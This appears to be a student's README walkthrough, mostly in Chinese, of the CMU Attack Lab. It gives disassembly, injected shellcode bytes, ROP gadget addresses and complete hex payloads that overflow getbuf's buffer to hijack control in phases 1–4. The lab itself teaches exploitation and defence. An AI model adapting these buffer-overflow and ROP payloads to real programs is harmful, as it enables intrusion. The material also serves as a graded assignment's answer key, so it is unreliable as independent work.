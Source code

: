 ## Description
- 分为两种attack: 1)Code Injection Attacks 2)Return-Oriented Programming
- 由于executable program的执行逻辑是要上传到CMU评分系统，我们自己本地做的时候要在command line 填入 -q，否则会有authetication error
- gdb -tui ctarget / run -q

## Code Injection Attack
### phase_1 touch_1
1. 0000000000401968 <test>
2. code injection attack, 将touch_1函数的地址(0x4017c0)覆盖掉getbuf调用后返回的return value
3. sub $0x28, %rsp 在栈上开辟了40bytes的空间，return value 就存储在 %rsp + 0x28为起始地址的位置
4. 所以我么只需要利用hex2raw生成40bytes的dummy string + 函数touch_1的little-endian形式的地址即可
5. 答案: input.txt 中 40 *aa c0 17 40, ./hex2raw < input.txt > stage1.txt
6. ./target < stage1.txt 即可通过

![](touch1.png)

```asm
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

### phase_2 touch_2
1. 00000000004017ec <touch2> | 
2. injection code的地址必须在当前%rsp所指向的范围内，调用%rsp范围以外的code会产生segmentation fault
3. touch_2的思路是将getbuf()在栈上的return address改为injection code的起始地址，而injection code 需要用assembly instruction retq实现跳转到touch_2
4. touch_2需要我们传入cookie值到%rdi作为函数的入参，所以我们编写的assembly code 只需要两条指令：
```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi #将cookie值$0x59b997fa传入%rdi中
   7:   e8 00 00 00 00          callq  0xc
```
5. 当我们从getbuf() return的时候%rsp指向test()开辟的栈的底部，我们要把<touch2>的地址填入到这里作为injection code运行结束后的跳转地址
6. assembly code不需要以litte-endian的形式填写，因为这是reverse engineering 生成的汇编代码，也就是机器上实际运行的代码

![](touch2-injection.png)

```asm
0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:   c3                      retq
```
```asm
"level2Instruct.txt" 9L, 193C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
48 c7 c7 fa 97 b9 59 c3
```

![](touch2.png)

### phase_3 touch_3
1. 思路与touch_2基本一样，只不过touch_3调用了一个hexmatch()函数，将cookie值解码成ascii字符串(0x59b997fa -> 35 39 62 39 39 37 66 61),我们需要通过injection code将“3539623939376661”存储在touch_3和hexmatch 栈空间接触不到的地方(否则会覆盖我们的字符串)，然后将存储的字符串的地址传递给%rdi, touch_3会把我们存储的字符串与hexmatch生成的cookie值的字符串进行比较，如果相等，touch3就完成了
2. 只要把字符串存在test 函数高地址空间的位置，这样hexmatch就无法overwrite我们存储的字符串，因为stack都是向更低的地址空间方向开辟新的地址
```c
int hexmatch(unsigned val, char *sval)
{
  char cbuf[110];
  /* Make position of check string unpredictable */ 
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */ if (hexmatch(cookie, sval)) {
          printf("Touch3!: You called touch3(\"%s\")\n", sval);
          validate(3);
      } else {
          printf("Misfire: You called touch3(\"%s\")\n", sval);
          fail(3); 
      }
  exit(0); }
```
```asm
0:   48 c7 c7 b0 dc 61 55    mov    $0x5561dcb0,%rdi
7:   c3                      retq
```
```asm
"level3Instruct.txt" 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
48 c7 c7 b8 dc 61 55 c3
35 39 62 39 39 37 66 61
00 00 00 00
```

![](touch3.png)

## Return Oriented Programming
第二截断ROP attack 多了两种stack protection mechanisms : 
> 1. It uses randomization so that the stack positions differ from one run to another. This makes it impos- sible to determine where your injected code will be > located.
> 2. It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the > > program would fail with a segmentation fault.
也就是说我们无法确切知道injected code的确切地址，因为栈空间的起始地址每次运行都是随机生成的，并且开辟出来的栈空间上的指令是nonexecutable。但是我们依然可以利用binary file中的程序主体的assembly code 截取部分代码并运行。farm.c 中的函数assembly code 就存在这样的漏洞可供我们利用。例如:
```asm
0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq
```
48 89 e0 c3 这4bytes是相连接的，而48 89 e0所对应的assembly code 是movq %rsp, %rax; 这样我们可以在return address中注入addval_190地址0x401a03 + 0x3 的偏移，就能从getbuf跳转到<addval_190> + 0x3的位置并, 此时%rip program counter 指向0x401a06的位置并开始执行48 89 e0 c3指令
![](assembly-code-bit-pattern.png)

### phase_4
1. 与phase_2相同，我们要传递cookie值到%rdi,然后跳转到touch_2的地址
2. 观察farm.c的assembly code 发现，部分function的汇编代码可以用来做跳转和register之间的传值
```asm
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq

0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq

0000000000401a11 <addval_436>:
  401a11:       8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:       c3                      retq

0000000000401a39 <addval_110>:
  401a39:       8d 87 c8 89 e0 c3       lea    -0x3c1f7638(%rdi),%eax
  401a3f:       c3                      retq

0000000000401a40 <addval_487>:
  401a40:       8d 87 89 c2 84 c0       lea    -0x3f7b3d77(%rdi),%eax
  401a46:       c3                      retq

0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq

00000000004019a7 <addval_219>:     -- pop rax
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```
3. <addval_219> 4019ab开始的指令58 90 c3 其中58对应popq %rax； 0x90对应nop；c3对应ret ｜ <addval_273> 4019a12开始的指令48 89 c7 c3 对应movq %rax, %rdi; ret
4. 有了这两条信息，我们可以将cookie值存储在栈空间，让程序首先跳转到0x4019ab, 将cookie值从栈上取出存入到%rax, ret返回后跳转到0x4019a12,将%rax 值传递给%rdi, ret返回后跳转到touch_2地址0x4017ec

![](phase4.png)

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```